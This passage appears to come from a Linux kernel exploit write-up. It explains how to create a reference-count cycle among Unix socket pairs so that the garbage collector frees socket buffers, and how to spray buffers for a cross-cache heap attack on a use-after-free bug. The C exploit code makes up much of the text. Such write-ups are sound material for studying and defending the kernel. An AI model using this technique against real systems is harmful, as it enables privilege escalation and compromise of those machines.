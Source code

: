 ## Prepare refcount circle to make unix_gc free skbs
We need to make unix_gc detect a refcount circle and do garbage collection to clear selected unix_sockets' sk_receive_queue.
Init two pair unix sockets named A, B, C and D. A's unix_peer is B and C's unix_peer is D.
By send C to A to make B's sk_receive_queue hold a refcount of C.
By send B to D to make C's sk_receive_queue hold a refcount of D.
B and C become a refcount circle, and it will clear these sk_receive_queue when trigger unix_gc.

In this step also we sending a lot of skbs to exploit use-after-free by performing cross cache attack, so we can reclaim uaf object by our own controlled data later.

The following code snippet is to do such thing.
```C
			SYSCHK(socketpair(AF_UNIX, SOCK_STREAM, 0, fds));
			A = fds[0];
			B = fds[1];
			SYSCHK(socketpair(AF_UNIX, SOCK_STREAM, 0, fds));
			C = fds[0];
			D = fds[1];

			// Max the socket send/recv buffer, because we need to spray a certain number skb
			// For heap cross cache attack
			size_t val = 0x400000;
			SYSCHK(SYSCHK(setsockopt(D, SOL_SOCKET, SO_SNDBUF, &val, 4)));
			SYSCHK(SYSCHK(setsockopt(A, SOL_SOCKET, SO_SNDBUF, &val, 4)));
			SYSCHK(SYSCHK(setsockopt(B, SOL_SOCKET, SO_RCVBUF, &val, 4)));
			SYSCHK(SYSCHK(setsockopt(C, SOL_SOCKET, SO_RCVBUF, &val, 4)));

			// Spray a lot skb a head for heap feng shui
			*(int *)CMSG_DATA(cmsg) = C;
			for (int i = 0; i < 0x100; i++)
				SYSCHK(sendmsg(D, &msg, 0));

			// Make B's recv buffer hold C, datapipe and signalpipe refcount
			cmsg->cmsg_len = CMSG_LEN(sizeof(int) * 3);
			msg.msg_controllen = cmsg->cmsg_len;
			((int *)CMSG_DATA(cmsg))[0] = signalpipe[1]; //when release this file, spray_pipe_page_thread will wake up when CPU#1 has free cpu time.
			((int *)CMSG_DATA(cmsg))[1] = datapipe[1]; // when release this file, because pipe lock is hold in splice, it will sleep and let CPU#1 to context switch
			((int *)CMSG_DATA(cmsg))[2] = C;
			SYSCHK(sendmsg(A, &msg, 0));

			// decrease unnecessary refcount
			close(signalpipe[1]);
			close(datapipe[1]);

			// Make C's recv buffer hold B refcount
			cmsg->cmsg_len = CMSG_LEN(sizeof(int));
			msg.msg_controllen = cmsg->cmsg_len;
			*(int *)CMSG_DATA(cmsg) = B;
			SYSCHK(sendmsg(D, &msg, 0));

			// Spray a lot skb at tail for heap feng shui
			*(int *)CMSG_DATA(cmsg) = C;
			for (int i = 0; i < 0x100; i++)
				SYSCHK(sendmsg(D, &msg, 0));

			// decrease unnecessary refcount
			close(B);
			close(C);
```
